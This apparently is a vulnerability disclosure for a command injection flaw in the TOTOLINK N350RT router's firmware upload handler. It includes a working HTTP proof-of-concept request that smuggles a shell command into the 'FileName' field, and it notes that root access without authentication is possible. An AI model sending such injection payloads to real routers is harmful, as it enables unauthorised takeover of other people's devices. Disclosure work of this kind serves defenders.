


# TOTOLink N350RT V9.3.5u.6139_B20201216 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/206/ids/36.html

### Product Information

TOTOLink N350RT V9.3.5u.6139_B20201216 router, the latest version of simulation overview：


## Vulnerability details

TOTOLINK N350RT (V9.3.5u.6139_B20201216) was found to contain a command insertion vulnerability in UploadFirmwareFile.This vulnerability allows an attacker to execute arbitrary commands through the "FileName" parameter.



`Var` is passed directly into the `dosystem` function.


The `dosystem` function is finally found to be implemented in this file by string matching.


Reverse analysis found that the function was called directly through the `system` function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 76
Origin: http://192.168.0.1
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"FileName":";ps #","ContentLength":"1","topicurl":"UploadFirmwareFile"}
1
```



 The above figure shows the POC attack effect 


Finally, you can write exp to get a stable root shell without authorization.
